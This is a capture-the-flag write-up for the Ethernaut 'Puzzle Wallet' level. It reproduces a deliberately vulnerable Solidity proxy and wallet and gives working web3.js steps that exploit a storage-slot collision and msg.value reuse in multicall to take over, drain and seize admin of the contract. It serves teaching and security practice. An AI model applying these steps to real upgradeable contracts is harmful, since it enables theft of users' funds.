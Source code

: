 # 24. Puzzle Wallet

Nowadays, paying for DeFi operations is impossible, fact.

A group of friends discovered how to slightly decrease the cost of performing multiple transactions by batching them in one transaction, so they developed a smart contract for doing this.

They needed this contract to be upgradeable in case the code contained a bug, and they also wanted to prevent people from outside the group from using it. To do so, they voted and assigned two people with special roles in the system: The admin, which has the power of updating the logic of the smart contract. The owner, which controls the whitelist of addresses allowed to use the contract. The contracts were deployed, and the group was whitelisted. Everyone cheered for their accomplishments against evil miners.

Little did they know, their lunch money was at risk…

  You'll need to hijack this wallet to become the admin of the proxy.


## Target contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
pragma experimental ABIEncoderV2;

import "@openzeppelin/contracts/math/SafeMath.sol";
import "@openzeppelin/contracts/proxy/UpgradeableProxy.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData) UpgradeableProxy(_implementation, _initData) public {
        admin = _admin;
    }

    modifier onlyAdmin {
      require(msg.sender == admin, "Caller is not the admin");
      _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    using SafeMath for uint256;
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
      require(address(this).balance <= maxBalance, "Max balance reached");
      balances[msg.sender] = balances[msg.sender].add(msg.value);
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] = balances[msg.sender].sub(value);
        (bool success, ) = to.call{ value: value }(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success, ) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

## Vulnerability

Delegate calls must be handled with care, as the contract making use of this trust the callee to do anything it wants with its storage.
Basically, when we make a call to the proxy, it will be delegated to the implementation. This delegation means that the code of the implementation will run in the context of the proxy.

### Taking ownership of the wallet

We can see that the wallet stores its `owner` variable in slot 0. However, in the context of the proxy slot 0 is used for the variable `pendingAdmin` which can be modified without restrictions by calling `proposeNewAdmin`, effectively modifying the owner for the code of PuzzleWallet.


```js
const accounts = await web3.eth.getAccounts();

// Encodes a call to proposeNewAdmin (belonging to the proxy)
const callData = web3.eth.abi.encodeFunctionCall({name: "proposeNewAdmin", type:'function', inputs:[{type:'address', name:'_newAdmin'}]}, [accounts[0]]);

// Send the tx to the proxy to overwrite slot 0 with our own address
await web3.eth.sendTransaction({to: contract.address, from: accounts[0], data: callData});
```

From now on we are considered as owner of the wallet. We can whitelist ourself :

```js
await contract.addToWhitelist(accounts[0]);
```

We now have full access to the Wallet functionalities as we are both owner and whitelisted. 

### Taking ownership of the proxy

In order to take ownership of the proxy we need to rewrite slot 1 from the Wallet. This slot hold the variable `maxBalance` which we cannot modify directly as :

```solidity
    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }
```

Will fail since maxBalance is already non 0.

```solidity
  function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
      require(address(this).balance == 0, "Contract balance is not 0");
      maxBalance = _maxBalance;
    }
```
Could work if we manage to drain all the funds of the proxy contract.

```js
await web3.eth.getBalance(contract.address);
// '1000000000000000000' or 1 ETH
```

**It took me a long time to figure out that I was going the wrong way...** the vulnerability to exploit is that the `multicall` function is not protected against reentrency.
So we can make a call to multicall that will deposit and call multicall again to deposit one more time and so on, all of that with a single tx, effectively reusing `msg.value`.

So let's first generate a call to deposit :

```js
const depositCall = web3.eth.abi.encodeFunctionCall({name: "deposit", type:'function', inputs:[]}, []);
```

Now let's generate a multicall that calls deposit :

```js
const innerMulticall = web3.eth.abi.encodeFunctionCall({name: 'multicall', type:'function', inputs:[{type:'bytes[]', name:'data'}]}, [[depositCall]]);
```

Finally, we generate a call that calls deposit followed by `innerMultiCall` (a call to multicall that calls deposit) :

```js
const outerMulticall = web3.eth.abi.encodeFunctionCall({name: 'multicall', type:'function', inputs:[{type:'bytes[]', name:'data'}]}, [[depositCall, innerMulticall]])
```

We can send those nested calls through a simple tx. Remember that the contract currently holds 1 ETH and we are planning on making 2 calls to deposit, thus reusing `msg.value` once. Our `msg.value` will be counted twice, and we want that `2 * msg.value` to equal to balance of the contract, therefore, we must send 1 ETH.

```js
await web3.eth.sendTransaction({from: accounts[0], to: contract.address, data:outerMulticall, value: web3.utils.toWei("1", "ether")})
```

We can check that our balance is actually twice what we deposited :

```js
(await contract.balances(accounts[0])).toString();
// '2000000000000000000' or 2 ETH
```

It is also matching the balance of the proxy contract :

```js
await web3.eth.getBalance(contract.address);
// '2000000000000000000' or 2 ETH
```

So we can now spend that money, and we will be able to rewrite `maxBalance`.

```js
const balance = await contract.balances(accounts[0]);

// Send the 2 ETH back to ourself
await contract.execute(accounts[0], balance, []);
```

The proxy contract should now have a balance of 0 :

```js
await web3.eth.getBalance(contract.address);
// '0'
```

Finally, we can overwrite `maxBalance` to our address. As `maxBalance` is bound to storage slot 1, which is also the slot of `admin` for the proxy contract we will become admin of the proxy.

```js
await contract.setMaxBalance(accounts[0]);
```

Just to make sure, let's read storage slot 1 of the proxy contract:

```js
await web3.eth.getStorageAt(contract.address, 1);
// '0x000000000000000000000000YOUR-ADDRESS-IS-HERE'
```

You can now submit the challenge !